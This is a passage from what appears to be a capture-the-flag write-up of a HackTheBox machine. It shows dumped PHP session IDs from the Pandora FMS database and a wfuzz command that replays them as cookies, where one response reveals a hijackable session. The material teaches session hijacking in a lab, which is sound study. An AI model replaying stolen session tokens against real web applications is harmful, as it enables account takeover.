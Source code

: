     | hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                            | 1638168492  |  
    | j6cbj3ng5243q6ikad06ad65bp | id_usuario|s:6:"daniel";                            | 1652903458  |  
    | jecd4v8f6mlcgn4634ndfl74rd | id_usuario|s:6:"daniel";                            | 1638456173  |       
    | o3kuq4m5t5mqv01iur63e1di58 | id_usuario|s:6:"daniel";                            | 1638540482  |       
    | oi2r6rjq9v99qt8q9heu3nulon | id_usuario|s:6:"daniel";                            | 1637667827  |       
    | pjp312be5p56vke9dnbqmnqeot | id_usuario|s:6:"daniel";                            | 1638168416  |
    | rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                            | 1638889082  |
    | u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                            | 1638547193  |       
    | u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                            | 1638793297  |       
    +----------------------------+-----------------------------------------------------+-------------+



There are a few hundred rows that have session ids but no user
associated with them, which is why I ignore those with the `--where`.

I don't totally understand why daniel has so many sessions, but there's
also one for matt.

#### Fuzz Sessions

To quickly test these sessions, I'll drop all 20 into a file, and run
`wfuzz`:



    oxdf@hacky$ wfuzz -u http://pandora.panda.htb:9001/pandora_console/ -b PHPSESSID=FUZZ -w sessions 
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************

    Target: http://pandora.panda.htb:9001/pandora_console/
    Total requests: 20

    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================

    000000002:   200        247 L    665 W    14153 Ch    "346uqacafar8pipuppubqet7ut"
    000000004:   200        247 L    665 W    14153 Ch    "5i352tsdh7vlohth30ve4o0air"
    000000009:   200        247 L    665 W    14153 Ch    "f0qisbrojp785v1dmm8cu1vkaj"
    000000003:   200        247 L    665 W    14153 Ch    "4nsbidcmgfoh1gilpv8p5hpi2s"
    000000007:   200        247 L    665 W    14153 Ch    "9vv4godmdam3vsq8pu78b52em9"
    000000008:   200        247 L    665 W    14153 Ch    "agfdiriggbt86ep71uvm1jbo3f"
    000000010:   200        247 L    665 W    14153 Ch    "g0kteepqaj1oep6u7msp0u38kv"
    000000005:   200        247 L    665 W    14153 Ch    "69gbnjrc2q42e8aqahb1l2s68n"
    000000001:   200        247 L    665 W    14153 Ch    "09vao3q1dikuoi1vhcvhcjjbc6"
    000000006:   200        247 L    665 W    14153 Ch    "8m2e6h8gmphj79r9pq497vpdre"
    000000013:   200        247 L    665 W    14153 Ch    "j6cbj3ng5243q6ikad06ad65bp"
    000000012:   200        247 L    665 W    14153 Ch    "hsftvg6j5m3vcmut6ln6ig8b0f"
    000000015:   200        247 L    665 W    14153 Ch    "o3kuq4m5t5mqv01iur63e1di58"
    000000014:   200        247 L    665 W    14153 Ch    "jecd4v8f6mlcgn4634ndfl74rd"
    000000016:   200        247 L    665 W    14153 Ch    "oi2r6rjq9v99qt8q9heu3nulon"
    000000011:   200        1393 L   4720 W   76805 Ch    "g4e01qdgk36mfdh90hvcc54umq"
    000000019:   200        247 L    665 W    14153 Ch    "u5ktk2bt6ghb7s51lka5qou4r4"
    000000017:   200        247 L    665 W    14153 Ch    "pjp312be5p56vke9dnbqmnqeot"
    000000018:   200        247 L    665 W    14153 Ch    "rgku3s5dj4mbr85tiefv53tdoa"
    000000020:   200        247 L    665 W    14153 Ch    "u74bvn6gop4rl21ds325q80j0e"
